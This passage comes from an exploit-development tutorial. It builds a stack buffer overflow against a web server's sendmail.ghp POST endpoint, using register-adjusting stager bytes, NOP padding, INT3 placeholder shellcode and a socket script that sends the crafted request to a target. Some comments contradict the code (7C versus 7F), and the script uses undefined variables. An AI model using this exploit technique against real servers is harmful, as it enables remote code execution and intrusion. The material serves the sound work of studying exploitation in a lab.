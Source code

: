 ``` ruby
"\x54\x58"     #PUSH ESP, POP EAX --> This sets the value of EAX to ESP by pushing the address of ESP onto the stack and popping it into EAX.
"\x83\xE8\x7F" #SUB EAX, 7F       --> This substracts 127 bytes from EAX
"\x83\xE8\x7F" #SUB EAX, 7F       --> This substracts 127 bytes from EAX
"\x83\xE8\x7F" #SUB EAX, 7F       --> This substracts 127 bytes from EAX
"\x83\xE8\x13" #SUB EAX, 13       --> This substracts 19  bytes from EAX
"\x50\x5C"     #PUSH EAX #POP ESP --> This sets the value of ESP to EAX by pushing the address of EAX onto the stack and popping it into ESP.
"\xFF\xE0"     #JMP EAX	          --> This redirects execution flow to EAX by jumping to it. 
```

After cleaning up and placing some padding, Our exploit code should look as follows:

``` ruby
Buffer = "\x90"*3712

Shellcode = (
"\xcc"*351
)

Staging=(
"\x54\x58" #PUSH ESP #POP EAX
"\x83\xE8\x7F" #SUB EAX, 7C
"\x83\xE8\x7F" #SUB EAX, 7C
"\x83\xE8\x7F" #SUB EAX, 7C
"\x83\xE8\x13" #SUB EAX, 7C
"\x50\x5C" #PUSH EAX #POP ESP
"\xFF\xE0" #JMP EAX
)

Stage1 = Staging + "\x90"*34 			# we add the additional 34 bytes to keep our 52 bytebuffer intact
Stage2=Buffer+Shell+"\xcc"*(363-len(Shell))	#our shell will be 351 bytes, so jumping back 359 bytes gives us 8 bytes of padding between our Shell and EIP
Padding="\x90"*16

crash = Stage2+EIP+Padding+Stage1

buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n" 
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```

Let's set a breakpoint and run the exploit again. As you step through it, pay attention to the EAX and ESP registers.
After we execute our jmp EAX, we can see that EIP was redirected to the buffer right before our shelcode. If we let it execute, we will see execution stop as soon as it reaches the INT3 instructions we sent
in the shellode variable.

